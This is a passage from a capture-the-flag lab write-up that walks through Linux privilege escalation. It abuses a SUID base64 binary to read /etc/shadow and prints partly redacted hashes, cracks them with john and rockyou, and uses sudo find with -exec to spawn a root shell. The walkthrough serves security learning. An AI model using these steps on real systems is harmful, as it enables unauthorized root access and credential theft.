37709347   12 -rwsr-xr-x   1 root     root        11128 Oct 13  2020 /usr/libexec/kde4/kpac_dhcp_helper
51455908   60 -rwsr-x--- 1 root     dbus        57936 Sep 30  2020 /usr/libexec/dbus-1/dbus-daemon-launch-helper
17836404   16 -rwsr-xr-x   1 root     root        15448 Apr  1  2020 /usr/libexec/spice-gtk-x86_64/spice-client-glib-usb-acl-helper
18393221   16 -rwsr-xr-x   1 root     root        15360 Oct  1  2020 /usr/libexec/qemu-bridge-helper
37203442  156 -rwsr-x--- 1 root     sssd       157872 Oct 15  2020 /usr/libexec/sssd/krb5_child
37203771   84 -rwsr-x--- 1 root     sssd        82448 Oct 15  2020 /usr/libexec/sssd/ldap_child
37209171   52 -rwsr-x--- 1 root     sssd        49592 Oct 15  2020 /usr/libexec/sssd/selinux_child
37209165   28 -rwsr-x--- 1 root     sssd        27792 Oct 15  2020 /usr/libexec/sssd/proxy_child
18270608   16 -rwsr-sr-x   1 abrt     abrt        15344 Oct  1  2020 /usr/libexec/abrt-action-install-debuginfo-to-abrt-cache
18535928   56 -rwsr-xr-x   1 root     root        53776 Mar 18  2020 /usr/libexec/flatpak-bwrap
```

With it we should be able to get access to the `/etc/shadow` file:

```
[leonard@ip-10-10-54-52 perl5]$ base64 /etc/shadow | base64 -d
root:$6$DWBzMoiprTTJ4gbW$<<--snipped-->>TjOW/yrzV5HtIL51::0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
pegasus:!!:18785::::::
systemd-network:!!:18785::::::
dbus:!!:18785::::::
polkitd:!!:18785::::::
colord:!!:18785::::::
unbound:!!:18785::::::
libstoragemgmt:!!:18785::::::
saslauth:!!:18785::::::
rpc:!!:18785:0:99999:7:::
gluster:!!:18785::::::
abrt:!!:18785::::::
postfix:!!:18785::::::
setroubleshoot:!!:18785::::::
rtkit:!!:18785::::::
pulse:!!:18785::::::
radvd:!!:18785::::::
chrony:!!:18785::::::
saned:!!:18785::::::
apache:!!:18785::::::
qemu:!!:18785::::::
ntp:!!:18785::::::
tss:!!:18785::::::
sssd:!!:18785::::::
usbmuxd:!!:18785::::::
geoclue:!!:18785::::::
gdm:!!:18785::::::
rpcuser:!!:18785::::::
nfsnobody:!!:18785::::::
gnome-initial-setup:!!:18785::::::
pcp:!!:18785::::::
sshd:!!:18785::::::
avahi:!!:18785::::::
oprofile:!!:18785::::::
tcpdump:!!:18785::::::
leonard:$6$JELumeiiJFPMFj3X$<<--snipped-->>v7TKavJNAm7ZjRi4/::0:99999:7:::
mailnull:!!:18785::::::
smmsp:!!:18785::::::
nscd:!!:18785::::::
missy:$6$BjOlWE21$<<--snipped-->>D2JCUypk4HazI3rPVqKHb/:18785:0:99999:7:::
```

Now we can try cracking the hash of the **missy** user and may be `root`?! Let's save the output for both this `shadow` file and the `/etc/passwd` on our local machine for cracking:

```
$ sudo unshadow passwd.txt shadow.txt > crackme.txt                                                                 
$ john --wordlist=/usr/share/wordlists/rockyou.txt crackme.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```

Out of this we should get the password for Missy pretty quickly. Let's switch to that user to see what we can do:

```
[leonard@ip-10-10-54-52 perl5]$ su missy
Password: 
[missy@ip-10-10-54-52 perl5]$ sudo -l
Matching Defaults entries for missy on ip-10-10-54-52:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-54-52:
    (ALL) NOPASSWD: /usr/bin/find
[missy@ip-10-10-54-52 perl5]$
```

It loos we can use `find` with sudo, let's leverage that to find our flags:

```
[missy@ip-10-10-54-52 perl5]$ sudo find / -name "flag1.txt"
/home/missy/Documents/flag1.txt
[missy@ip-10-10-54-52 perl5]$ sudo find / -name "flag2.txt"
/home/rootflag/flag2.txt

```

we cant get the first flag easy now that we have access to miss

But we still have to get root for the next one... Let's leverage `find` again:

```
[missy@ip-10-10-54-52 ~]$ sudo find . -exec /bin/sh \; -quit
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Bingo! root shell! Let's get the last flag:

```
sh-4.2# cat /home/rootflag/flag2.txt
```

  This was a fun challenge. I am working on a script to do a lot of this manual work, I'll update this post once I complete it :)
